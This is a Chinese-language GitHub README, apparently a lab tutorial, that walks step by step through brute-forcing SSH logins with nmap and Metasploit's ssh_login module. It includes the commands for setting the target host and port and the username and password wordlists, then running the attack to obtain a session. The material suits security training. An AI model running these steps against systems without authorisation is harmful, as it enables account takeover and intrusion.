 # Brute-Force SSH login
使用Metasploit暴力猜測ssh的登入帳密。

## **環境&工具**
* 一台Kali Linux
* 一台有ssh服務的靶機
* 一個字典檔

## **破解流程**
* step1：針對目標機器做掃描，掃描這台主機有開那些服務
  * 這邊使用nmap這套工具做掃描，檢測目標主機是否在線上、port開放的情況
  * nmap其他相關指令請參考https://zh.wikipedia.org/zh-tw/Nmap
    > ```shell
    > namp -sV xxx.xxx.xxx.xxx
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/1.png)
* step2：開啟Metasploit
    > ```shell
    > msfconsole
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/2-1.png)
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/2-2.png)
* step3：開啟Metasploit這套工具尋找模組腳本
  * 這邊使用模組名稱是`auxiliary/scanner/ssh/ssh_login`
  
    > ```shell
    > search ssh_login
    > use auxiliary/scanner/ssh/ssh_login
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/3-1.png)
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/3-2.png)
* step4：查看使用的模組腳本需要設定的參數
  * 這邊四個重要的參數必須設定，`目標主機IP`、`目標主機port號`、`使用者帳號`、`使用者密碼`
  
    > ```shell
    > options
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/4.png)
* step5：設定目標主機IP
    > ```shell
    > set rhost xxx.xxx.xxx.xxx
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/5.png)  
* step6：目標主機port號
    > ```shell
    > set rport xx
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/6.png)
* step7：設定使用者帳號密碼
  * 設定使用者帳號及使用者密碼的方式有三種，`利用username及password的字典檔`、`分別給username及password的字典檔`、`直接設定username及password`

  * 利用username及password的字典檔  
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/7.png)   
    > ```shell
    > set userpass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/8.png)    

  * 分別給username及password的字典檔 
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/9.png)   
    > ```shell
    > set user_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/10.png)   
    > ```shell
    > set pass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/11.png)     
  
  * 直接設定username及password  
    > ```shell
    > set username [名稱]
    > set password [密碼]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/12.png)   

  ```
  設定使用者帳號密碼，可使用字典檔也可自行輸入，可搭配自行輸入及字典檔的組合，更快速的找到登入的帳密。
  ```

* step8：執行暴力猜測ssh的登入帳密
    > ```shell
    > exploit
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/13.png)
  * 執行成功後會有一個session存在著
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/14.png)

## **References**
* https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits
